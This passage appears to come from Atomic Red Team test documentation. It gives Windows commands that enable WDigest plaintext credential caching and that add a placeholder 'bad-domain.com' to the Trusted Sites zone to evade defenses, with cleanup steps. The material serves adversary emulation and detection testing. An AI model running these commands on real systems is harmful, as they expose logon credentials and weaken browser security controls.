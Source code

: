 




#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Add domain to Trusted sites Zone
Attackers may add a domain to the trusted site zone to bypass defenses. Doing this enables attacks such as c2 over office365.
Upon execution, details of the new registry entries will be displayed.
Additionally, open Registry Editor to view the modified entry in HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\.

https://www.blackhat.com/docs/us-17/wednesday/us-17-Dods-Infecting-The-Enterprise-Abusing-Office365-Powershell-For-Covert-C2.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** cf447677-5a4e-4937-a82c-e47d254afd57





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| bad_domain | Domain to add to trusted site zone | string | bad-domain.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$key= "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\#{bad_domain}\"
$name ="bad-subdomain"
new-item $key -Name $name -Force
new-itemproperty $key$name -Name https -Value 2 -Type DWORD;
new-itemproperty $key$name -Name http  -Value 2 -Type DWORD;
new-itemproperty $key$name -Name *     -Value 2 -Type DWORD;
```
